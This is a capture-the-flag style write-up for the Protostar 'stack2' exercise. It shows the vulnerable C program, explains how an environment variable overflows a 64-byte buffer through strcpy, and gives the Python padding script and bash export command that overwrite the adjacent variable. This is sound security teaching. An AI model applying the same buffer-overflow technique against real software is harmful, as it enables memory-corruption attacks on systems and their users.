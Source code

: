 # Stack2 Solution

## C Code

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Exploit 

This time, everything is *almost* the same as [stack1](https://github.com/Naksh-Rathore/protostar-solutions/blob/main/stack1/solution.md), but with **three big differences**. First of all, the `modified` **check was changed from** `0x61626364` to `0x0d0a0d0a`, which is `\n\r\n\r` in little-endian. Second of all, instead of getting **user input from the command-line**, `getenv()` is used to fetch the input from an **environment variable** called `GREENIE`. 

To exploit this program, **first we have to fill up** `buffer` as we did before, **then append** `0x0d0a0d0a` to the string. Finally we put that all in a **environment variable** named `GREENIE`.

Here is the exploit script (stored in `/tmp`):

```python
padding = "A" * 64
modified_val = "\n\r\n\r" # little endian

print(padding + modified_val)
```

Now that we have the program ready, we need to put in the **environment variable**. To do that, we need to enter this command which **exports a environment variable**.

```bash
export GREENIE=$(python /tmp/exploit.py)
```

Now **run the binary**: `/opt/protostar/bin/stack2`<br />
**Result**: `you have correctly modified the variable`

## Resources

* [C Code](https://exploit.education/protostar/stack-two/)
* [Geeks for Geeks Article on Linux Environment Variables](https://www.geeksforgeeks.org/linux-unix/environment-variables-in-linux-unix/)